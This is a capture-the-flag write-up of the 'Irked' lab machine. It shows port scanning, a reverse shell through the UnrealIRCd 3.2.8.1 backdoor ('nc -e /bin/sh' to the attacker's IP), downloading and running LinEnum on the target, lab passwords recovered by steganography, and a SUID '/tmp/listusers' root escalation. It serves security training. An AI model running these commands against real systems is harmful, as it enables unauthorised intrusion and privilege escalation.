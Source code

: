 ```yaml
---
title: Irked
tags: linux
---
```


![image](assets/79370935-83cb2b80-7f21-11ea-8294-37f5d3dd9c72.png)

## Overview

Irked is a Debian 8.10 box running a webserver and the UnrealIRCd internet relay chat server.  UnrealIRCd 3.2.8.1 contains a backdoor that allows the execution of any command with the privileges of the user running ircd. I was able to use the backdoor to create a reverse shell to get intial foothold. After some enumeration a file was found in the home folder of djmardov that provided the password for a steg file. The referenced steg file ended up being the image on the main website. Steghide was used to extract the password which allowed for login via ssh with user djmardov. LinEnum was used to do additional enumeration and showed an unusual application with SUID set. The application was exploited to get a root shell.

## Enumeration

**Software**
 
 * Debian GNU/Linux 8.10 (jessie)
 * UnrealIRCd 3.2.8.1

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.117 -oN /mnt/data/boxes/irked/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp -  http
* 111/tcp - rpcbind
* 6697/tcp - UnrealIRCd
* 8067/tcp - UnrealIRCd
* 38875/tcp - status (RPC #100024)
* 65534/tcp - irc

## Steps (user)

Browsing to http://10.10.10.117 shows an image with text "IRC is almost working!"

![image](assets/82152134-524dc480-982d-11ea-9676-1990c9add2c3.png)

Running a search for "UnrealIRCd" in searchsploit returned a few results for version 3.2.8.1.

![image](assets/82152534-de60eb80-982f-11ea-834e-5e36a0141f7b.png)

I was able to confirm that the version on the target box was the affected version by connecting to port 6697 via netcat.

```
nc 10.10.10.117 6697
NICK test123
USER test123 test123 10.10.10.117 :realname
```

![image](assets/82152492-90e47e80-982f-11ea-98ce-81dd29635344.png)

I reviewed the code for "Backdoor Command Execution (Metasploit)" and the exploit was pretty straight forward. The format is _AB; + command + \n_. I set up a netcat lisener (nc -lvnp 4200) and sent a command to create a reverse shell.

```
AB;nc -e /bin/sh 10.10.14.5 4200 \n
```

![image](assets/82153275-6b0da880-9834-11ea-8818-9d790299db6c.png)

Enumerating the filesystem I came across a file in /home/djmardov/Documents/ called ".backup". Viewing the contents of this file shows the steg backup password 'UPupDOWNdownLRlrBAbaSSss'

> Note: I was not able to view the user.txt file with the user 'irked'.

![image](assets/82153461-8e852300-9835-11ea-9036-f7c37863b0f5.png)

"Steg" or steganography allows for concealing a file, message, image, or video within another file, message, image, or video. I decided first to see if there was anything hidden in the image on the main site.

```
wget http://10.10.10.117/irked.jpg
```

I used a tool called steghide to determine if there was anything hidden in the file and there was.

```
steghide info irked.jpg
```

![image](assets/82153596-5af6c880-9836-11ea-866c-ccbc5cd07b99.png)

I then ran a command to extract pass.txt, the contents of which showed what looked like a password (Kab6h+m+bbp2J:HG).

```
steghide extract -sf irked.jpg
```

![image](assets/82153797-b1b0d200-9837-11ea-811e-933d2422a4ab.png)

I tried to log in via ssh with user djmardov with the password and was successful.

![image](assets/82153835-f6d50400-9837-11ea-97c9-9f695617dcc8.png)

## Steps (root/system)

I used a tool called [LinEnum](https://github.com/rebootuser/LinEnum) to do some additional enumeration on the machine.

I copied the script to my local working directory and started a python http server.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server
```

On the target I used wget to download the file and then ran it.

```
wget http://10.10.14.5/le.sh
chmod +x ./le.sh && ./le.sh 
```

Reviewing the results I noticed an unusual file (/usr/bin/viewuser) with the SUID (SetUID) permission set.

![image](assets/82154212-503e3280-983a-11ea-9fb0-3277ae870061.png)

> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Running the viewuser command indicates that this is an application that is being developed to set and test user permissions and is still under active development. There is also an error "/tmp/listusers": not found.

![image](assets/82154425-d8710780-983b-11ea-9db0-dfc91ca4a5db.png)

I was able to create the /tmp/listusers file the app was looking for, and use it to spawn a shell. Because the viewusers command is running as root, I was able to get a shell as root.

```
echo '/bin/bash' > /tmp/listusers
chmod +x /tmp/listusers
/usr/bin/viewuser
```

![image](assets/82154569-c6dc2f80-983c-11ea-8cfe-ba8f4aba1bef.png)
